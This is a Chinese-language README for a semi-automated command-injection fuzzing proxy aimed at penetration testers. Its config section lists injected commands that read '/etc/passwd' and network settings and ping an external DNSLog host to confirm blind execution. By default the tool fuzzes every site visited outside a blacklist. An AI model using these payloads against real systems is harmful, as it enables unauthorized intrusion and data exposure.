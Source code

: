 # OCIFT
一个半自动化命令注入漏洞Fuzz工具(One Semi-automation command injection vulnerability Fuzz tool)

## 1. OCIFT是什么

一个半自动化命令注入漏洞Fuzz工具(One Semi-automation command injection vulnerability Fuzz tool)简写为:OCIFT

## 2. OCIFT有什么用

这是一种半自动化的黑盒测试工具,它可以帮助渗透测试人员或代码审计人员在愉快的上网的同时，深度挖掘目标应用系统存在的命令注入漏洞。 

## 3. OCIFT有什么特点

*   Payload基于Commix生成方式修改而来(需要持续完善).
*   基于浏览器代理的半自动化Fuzz.
*   多线程Fuzz速度快,不影响正常浏览器访问使用.
*   支持设置白名单限制Fuzz范围.
*   支持设置黑名单避免带来不必要的麻烦.
*   支持DNSLog辅助验证

## 4. OCIFT实现思路

基于Tornado的实现一个代理服务器，解析GET／POST请求提取Fuzz点，带入payload进行Fuzz测试。

*   文件结构说明

`➜  cifuzz git:(master) ✗ tree
.
|____run.py       主程序入口
|____dnslog.py    DNSLog SDK
|____fuzz.conf    配置文件
|____fuzz.py      Fuzz线程
|____make_payload.py  Payload生成器
|____readme.md  说明文档`

## 5. 配置文件说明

*   配置各个参数,以逗号分隔

`[initconfig]`

*   黑名单HOST－为了避免带来不必要的麻烦

`black_hosts =.gov,localhost,127.0.0.1,google,gstatic,cnzz.com,doubleclick,police,mil.cn,gov.cn,gov.com`

*   静态文件黑名单-这些不做Fuzz

`url_ext_black =.ico,.flv,.css,.jpg,.png,.jpeg,.gif,.pdf,.ss3,.txt,.rar,.zip,.avi,.mp4,.swf,.wmi,.exe,.mpeg`

*   白名单HOST-为了限制Fuzz的范围, 默认为空-表示对除黑名单范围外的所有地址进行Fuzz.

`white_site =`

*   参数名黑名单-如: submit
  `black_parameters =submit`

*   请求超时-限制每次Fuzz请求超时时间

`timeout =10`

*   我的DnsLog地址

`my_cloudeye =ano1qu2j.xfkxfk.com`

*   判断是够注入命令执行成功的关键字

`checkkeys =110586256,/bin/bash,nameserver,IPv4,Windows IP`

*   用于测试命令注入的基本命令

`base_command =cat /etc/resolv.conf,echo 110586256,cat /etc/passwd,ipconfig,ping CommandInj.{my_cloudeye},echo 110586256<nul`

*   Fuzz线程数

`fuzz_count =20`

*   fuzz的payload类型, 默认False-表示使用自定义的规则

`commix_payload_type = False`

*   DnsLog登录会话ID,我用的xfkxfk牛的dnslog.xfkxfk.com

`dnslog_sessionid =q6wva2e3skg79vkdegra2bygft0d1`

*   Your Domain

`custom_domain =a2fta2j`

*   记录成功结果的Log文件

`Logfile =rce_success_results.txt`

## 6.如何使用

*   1.安装模块

`pip install tornado
pip install requests`

*   2.根据自己需要完成文件fuzz.conf的配置
*   3.启用主程序

`python run.py 8089`
如下图:

![启动](http://www.coffeehb.cn/zb_users/upload/2017/04/20170409003441149166928169694.jpg)

*   4.设置浏览器代理
然后会自动开始Fuzz

![开始Fuzz](http://www.coffeehb.cn/zb_users/upload/2017/04/20170409003324149166920421927.jpg)

## 7.总结

*   基本实现了想要的半自动化Fuzz功能
*   payload还需要不断优化


